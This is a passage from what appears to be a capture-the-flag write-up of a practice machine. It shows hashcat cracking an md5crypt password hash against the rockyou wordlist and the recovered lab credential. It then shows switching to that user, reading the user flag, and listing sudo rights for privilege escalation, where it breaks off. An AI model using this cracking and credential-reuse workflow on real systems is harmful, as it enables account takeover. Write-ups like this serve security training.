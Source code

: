 At this point we got users and their passwords but they are hashed
Time to decrypt them with hashcat and rockyou (its always rockyou XD)
Took me alot of time to identify the hash type (google please)...seems like its md5 so the correct command is

`hashcat '$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.' /usr/share/wordlists/rockyou.txt -m 500`

wich gives us (after some time)

```
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!

Session..........: hashcat
Status...........: Cracked
Hash.Name........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: $1$🧂llol$DQpmdvnb7EeuO6UaqRItf.
Time.Started.....: Mon Nov 1 00:05:11 2021 (30 mins, 29 secs)
Time.Estimated...: Mon Nov 1 00:35:40 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 4084 H/s (6.64ms) @ Accel:16 Loops:1000 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 7413280/14344385 (51.68%)
Rejected.........: 0/7413280 (0.00%)
Restore.Point....: 7413248/14344385 (51.68%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1000
Candidates.#1....: ilovecody98 -> ilovecodee

Started: Mon Nov 1 00:03:43 2021
Stopped: Mon Nov 1 00:35:42 2021
```

So the credentials are:
`m4lwhere:ilovecody112235!`

Lateral movement

```
su m4lwhere
Password: ilovecody112235!

m4lwhere@previse:~$
```

USER FLAG IS OURS  
`cat user.txt`

## Privilege Escalation

```
sudo -l
[sudo] password for m4lwhere: ilovecody112235!

User m4lwhere may run the following commands on previse:
(root) /opt/scripts/access_backup.sh
```
